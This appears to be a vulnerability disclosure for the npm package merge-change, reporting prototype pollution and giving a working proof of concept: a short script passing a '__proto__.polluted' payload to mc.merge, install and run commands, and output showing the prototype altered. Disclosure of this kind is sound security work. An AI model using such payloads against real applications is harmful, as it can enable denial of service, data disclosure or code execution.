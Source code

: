 # Description

`merge-change` is vulnerable to `Prototype Pollution`.
This package fails to restrict access to prototypes of objects, allowing for modification of prototype behavior using a `proto` payload, which may result in Sensitive Information Disclosure/Denial of Service(DoS)/Remote Code Execution.


# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var mc = require("merge-change")

console.log("Before : " + {}.polluted);
const result = mc.merge({'__proto__':{}}, {$set:{'__proto__.polluted': 'Yes! Its Polluted'}});
console.log("After : " + {}.polluted);

```
2. Execute the following commands in another terminal:

```
npm i merge-change # Install affected module
node poc.js #  Run the PoC
```
3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
